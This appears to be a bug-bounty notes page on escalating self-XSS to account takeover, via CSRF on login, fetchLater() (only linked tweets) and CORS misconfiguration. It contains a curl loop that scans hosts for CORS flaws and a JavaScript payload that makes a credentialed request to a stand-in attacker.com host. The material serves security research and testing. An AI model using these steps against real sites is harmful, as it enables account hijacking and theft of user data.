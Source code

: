 # Self-XSS Bypass

### CSRF In Login

* Search for csrf in login and now attacker force the victim to login ton his account be affected with the js execution

### Using fetchLater()&#x20;

{% embed url="https://x.com/ctbbpodcast/status/1940085637912186998" %}

{% embed url="https://x.com/Ahmex000/status/1940537438512013645?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1940537438512013645%7Ctwgr%5Ed432e73b5c4dfc3624db3828e5e29e8be256d3fa%7Ctwcon%5Es1_&ref_url=https%3A%2F%2Fwww.notion.so%2Fm8szt8%2F23634f652d07804593b9d9f936762491%3Fv%3D23634f652d078035af64000c66067777p%3D23634f652d07819e90faedb1e594746epm%3Ds" %}



### CORS + Self-XSS to ATO Checklist

1. **Got Self-XSS?**: Confirm self-XSS vulnerability.
2. **Check CORS Misconfig**: Run `cat corstexturl.txt | CorsMe` or `cat corstexturl.txt | soru -u | anew | while read host; do curl -s --path-as-is --insecure -H "Origin: test.com" "$host" | grep -qs "Access-control-allow-origin: test.com" && echo "$host \033[0;31m cors Vulnerable"; done`.
3.  **Exploit CORS**: Replace XSS payload with:

    ```javascript
    function cors() {
      var xhttp = new XMLHttpRequest();
      xhttp.onreadystatechange = function() {
        if (this.status == 200) {
          alert(this.responseText);
          document.getElementById("demo").innerHTML = this.responseText;
        }
      };
      xhttp.open("GET", "https://www.attacker.com/api/account", true);
      xhttp.withCredentials = true;
      xhttp.send();
    }
    cors();
    ```

### References

* [fetchLater() Research](https://blog.slonser.info/posts/make-self-xss-great-again/)
* [CORS + XSS ATO](https://notifybugme.medium.com/chaining-cors-by-reflected-xss-to-account-takeover-my-first-blog-5b4f12b43c70)
* [X Thread](https://x.com/ctbbpodcast/status/1940085637912186998)

